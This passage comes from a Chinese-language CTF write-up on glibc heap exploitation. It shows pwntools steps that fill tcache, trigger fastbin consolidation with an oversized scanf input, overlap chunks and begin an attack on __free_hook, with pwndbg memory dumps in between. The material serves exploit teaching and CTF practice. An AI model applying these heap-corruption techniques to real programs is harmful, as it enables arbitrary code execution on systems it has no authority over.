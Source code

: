 ##### 2.3

然后将 0x78+0x58 放回到 unsortedbin ，释放 0x110 后面的堆块就会向前合并，即 unsortedbin 里面变成 0x110 + 0x110 后面的堆 size 。

```Python
for i in range(7):
    add(i,0x78)
for i in range(7):
    delete(i)
delete(8)#fastbin
for i in range(7):
    add(i,0x58)
for i in range(7):
    delete(i)
delete(9)#fastbin

p.sendlineafter("choice: ",'1'*0x7000)
gdb.attach(p)
```

合并完成后的chunk如下，我们可以清楚的看见chunk size成功合并为0xe0大小同时prev_inuse 也变成了1

```c
pwndbg> x/8gx 0x55b336b405d0 
0x55b336b405d0:	0x6161616161616161	0x00000000000000e1
0x55b336b405e0:	0x00007f3aeb0d1d70	0x00007f3aeb0d1d70
0x55b336b405f0:	0x0000000000000000	0x0000000000000000
0x55b336b40600:	0x0000000000000000	0x0000000000000000
```

接着进行堆重叠

```Python
delete(12)
p.sendlineafter("choice: ",'1'*0x7000)
```

重叠部分的chunk如下

```c
pwndbg> x/32gx 0x55b67f11d6b0
0x55b67f11d6b0:	0x00000000000000e0	0x0000000000000020
0x55b67f11d6c0:	0x0000000000000000	0x0000000000000000
```



#### 第三步实操

##### 3.1

直接利用重叠部分chunk攻打free_hook

```Python
for i in range(7):
    add(i,0x78)
add(8,0x78)
for i in range(7):
    delete(i)
for i in range(7):
    add(i,0x58)
add(9,0x58)
for i in range(7):
    delete(i)
for i in range(7):
    add(i,0x20)
add(12,0x20)#hacker

for i in range(7):
    delete(i)

```